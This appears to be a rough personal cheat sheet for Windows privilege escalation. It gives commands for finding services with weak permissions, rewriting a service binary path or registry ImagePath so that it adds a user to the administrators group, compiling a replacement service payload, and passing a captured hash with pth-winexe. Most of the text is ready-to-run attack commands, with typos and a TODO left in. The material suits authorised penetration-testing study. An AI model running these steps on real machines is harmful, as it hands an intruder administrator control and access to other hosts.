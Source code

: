 ## Finding services with modifiable registry values
```powershell
sc qc # query service configuration
```
Importantly the `BINARY_PATH_NAME` parameter is executed by `SERVICE_START_NAME`.
All service configurations are `HKLM\SYSTEM\CurrentControlSet\Services\`

```powershell
# accesschk is sysinternals
# use icalcs
icacls C:\vulnerable\service.exe
# IF group permissions allow for modify permission (M) on a the service executable -> overwrite it with a payload of choice.
accesschk.exe -kvqwsu "Authenticated Users" hklm\system\currentcontrolset\services /accepteula
accesschk.exe -kvqwsu "Users" hklm\system\currentcontrolset\services /accepteula
accesschk.exe -kvqwsu "Everyone" hklm\system\currentcontrolset\services /accepteula
```

## Binary Path
```powershell
reg query "HKLM\System\CurrentControlSet\Session Management\Environment"
%PATH% # if writable by authenticated users
# prepended paths are bad
reg32
netsh # devs use it alot it can tcpdump,but wih processes

accesschk64.exe -wuvc daclsvc # sysinternals - if user has SERVICE_CHANGE_CONFIG permission
sc config daclsvc binpath="net localgroup administrators [username] /add"
sc start daclsvc
net localgroup administrators
```

## Service Escalation Registry
Use [subinacl](https://windows-resource-kit-tools-subinacl-exe.software.informer.com/) 
```powershell
reg query 
Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl # Avoid powershell
Copy ‘C:\service.c # Edit file, either on box or on attack box, depending on local compiler and noise:
# replace or add a system() function call to:
"cmd.exe /k net localgroup adminstrators [username] /add"
# x86_64-w64-mingw32-gcc windows_service.c -o x.exe
# Copy back to /Temp
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f # Edit path
sc start regsvc
netlocalgroup administrators # check success
```

## Passing the hash
```powershell
pth-winexe -U 'admin%hash' //MACHINE_IP cmd.exe # Full hashes delimitereed by colon.

# Alternative:

responder.py #TODO!!
```
